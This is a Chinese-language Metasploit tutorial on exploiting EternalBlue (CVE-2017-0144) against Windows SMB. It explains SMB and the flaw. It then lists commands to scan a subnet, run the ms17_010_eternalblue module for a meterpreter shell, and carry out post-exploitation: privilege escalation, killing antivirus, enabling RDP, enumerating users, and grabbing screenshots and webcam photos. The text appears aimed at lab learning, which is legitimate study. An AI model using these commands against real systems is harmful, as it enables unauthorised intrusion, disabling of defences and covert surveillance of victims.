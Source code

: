 # 一、 环境准备

1 一台Windows电脑

（可以使用虚拟机代替）

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、 CVE-2017-0144 介绍

1.何为CVE-2017-0144？

​    CVE-2017-0144 既 永恒之蓝最早爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了勒索病毒，使全世界大范围内遭受了勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。

2.什么是SMB协议？

 SMB是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。

3.SMB工作原理是什么？

   （1）：首先客户端发送一个SMB negport 请求数据报，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

   （2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

   （3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

   （4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

# 三、原理

永恒之蓝是在 Windows 的SMB服务处理 SMB v1 请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。通过永恒之蓝漏洞会扫描开放445 文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

 

# 四、CVE-2017-0144 利用方法

1  启动Metasploit

终端里输入 msfconsole

2 查询利用模块

终端里输入 search ms17_010

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/960ae38818084260be8eb69e589edba4.png)

3 使用探测模块

终端内输入  use auxiliary/scanner/smb/smb_ms17_010

4 设置探测范围

终端内输入  show options   

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/ab7ca3d4ba774677bc2a239c420349f7.png)

上图中我们可以看到是需要配置一个RHOSTS  

终端内输入  set rhosts  192.168.3.0/24  （设置扫描当前网段  可以通过 在终端内输入ip a 查看）

也可以设置范围 set rhosts 192.168.3.1-192.168.3.10

5 开始探测

终端内输入  run 执行探测

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/7df1f73ea464404091de9c13d885c139.png)

根据上图我们可以看到 192.168.3.8 这个IP的机器可能存在漏洞

6 开始漏洞利用

开始利用首先在终端里输入
search ms17_010

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8bf107d057a34676984a5d5e8b9bae73.png)
使用 模块
use  exploit/windows/smb/ms17_010_eternalblue

7 配置利用模块

配置模块
show options   
配置靶机
set rhost 192.168.3.8  这里IP填第五步探测到的IP

8 执行攻击

在终端里输入  run


![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8a0c81062f424c7682a329503a315313.png)

知道咱们看到 win  则攻击成功 拿到meterpreter 

9 后渗透操作

查看进程：ps
	查看当前进程号：getpid
	查看系统信息：sysinfo
	查看目标机是否为虚拟机：run post/windows/gather/checkvm
	查看完整网络设置：route
	查看当前权限：getuid
	自动提权：getsystem
	关闭杀毒软件：run post/windows/manage/killav
	启动远程桌面协议：run post/windows/manage/enable_rdp
	列举当前登录的用户：run post/windows/gather/enum_logged_on_users
	查看当前应用程序：run post/windows/gather/enum_applications
	抓取目标机的屏幕截图：load espia ； screengrab
	抓取摄像头的照片：webcam_snap
	查看当前处于目标机的那个目录：pwd
	查看当前目录：getlwd

